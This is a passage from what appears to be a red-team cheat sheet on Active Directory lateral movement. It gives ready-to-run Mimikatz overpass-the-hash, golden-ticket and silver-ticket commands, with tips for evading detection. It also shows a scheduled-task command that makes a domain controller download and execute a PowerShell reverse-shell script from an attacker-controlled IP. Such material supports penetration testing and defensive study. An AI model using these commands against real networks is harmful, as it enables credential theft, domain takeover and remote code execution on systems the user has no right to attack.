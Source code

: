 Once we have a TGT as the target user, we can use services as this user in a domain context, allowing us to move laterally.

### Lateral Movement with Mimikatz

Note that Mimikatz is incredibly versatile and is discussed in multiple sections throughout this blog. Because of this, however, the binary is also very well-detected. If you need to run Mimikatz on your target (not recommended), executing a custom version reflectively is your best bet. There are also options such as [Invoke-MimiKatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) or [Safetykatz](https://github.com/GhostPack/SafetyKatz). Note that the latter is more stealthy but does not include all functionality.

```plaintext
# Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe

# Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```
> A nice overview of the SPNs relevant for offensive purposes is provided [here](https://adsecurity.org/?p=2011) (scroll down) and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets).

### Command execution with scheduled tasks

*Requires 'Host' SPN*

To create a task:

```powershell
# Mind the quotes. Use encoded commands if quoting becomes too much of a pain
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

To trigger the task:

```powershell
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```

### Command execution with WMI

*Requires 'Host' and 'RPCSS' SPNs*

